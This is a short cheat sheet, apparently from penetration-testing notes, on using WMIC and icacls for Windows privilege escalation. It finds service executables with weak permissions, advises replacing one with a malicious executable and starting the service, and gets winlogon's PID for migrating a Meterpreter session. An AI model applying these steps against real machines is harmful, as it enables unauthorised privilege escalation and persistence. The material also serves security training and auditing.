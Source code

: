 # WMIC
Windows Management Instrumentation Command-Line

* List all the services on the machine:
  ```
  c:> wmic service list brief
  ```
  This will produce a lot out output and we need to know which one of all of these services have weak permissions. In order to check that we can use the icacls program. Notice that icacls is only available from Vista and up. XP and lower has cacls instead.

* Find all the potentially weak services  

  As you can see in the command below you need to make sure that you have access to wmic, icacls and write privilege in C:\windows\temp.

  ```
  c:> for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

  c:> for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
  ```
  - The first command uses wmic to list the services, looks for the full path of the executable, filters out system32 paths, and then dumps that output to a text file.
  - The second command parses that text file getting rid of some junk in the path name then does the icacls command on that path to determine the permissions on that service executable.
  - In the output you want to look for BUILTIN\Users:(F). Or where your user/usergroup has (F) or (C) rights. For this service, replace executable with malicious exe.

* Start the service
  ```
  c:> wmic service [SERVICE NAME] call startservice
  ```

* When a meterpreter session dies quickly, you need to find a more stable process to migrate to. Get the PID for `winlogon.exe`
  ```
  c:> wmic process list brief | find "winlogon"
  ```
  Migrate to that in Meterpreter session
